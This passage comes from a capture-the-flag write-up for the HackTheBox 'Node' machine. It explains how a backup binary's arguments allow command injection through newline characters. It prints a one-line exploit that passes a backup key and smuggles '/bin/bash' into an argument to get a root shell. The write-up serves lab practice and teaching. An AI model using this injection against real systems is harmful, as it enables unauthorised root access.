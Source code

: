 ![app-get-39](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Node/img/app-get-39.png)

Here we can see how to use this binary. The `backup_key` variable is defined at the top of the file:

![key-40](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Node/img/key-40.png)

So the binary takes the `-q` swich, the `backup_key` and finally the directory to backup. Still at this point there isnt a clear way to exploit this to get root. After a while researching I came across the [NRPE vulnerability](https://www.exploit-db.com/exploits/32925) that outlines how we can exploit bash bainries that take in arguments from the command line. 

Here is the a short overview: 

Despite these checks the code is vulnerable to command injection as bash shell allows for multiple command execution if commands are separated by a new line. None of the checks examines the arguments for an occurrence of a new line character: 0x0A

To exploit the target we can run something like this:

```bash
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "$(echo -e 'aaa\n/bin/bash\nls')"
```

This gives us a shell as root:

![root-41](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Node/img/root-41.png)
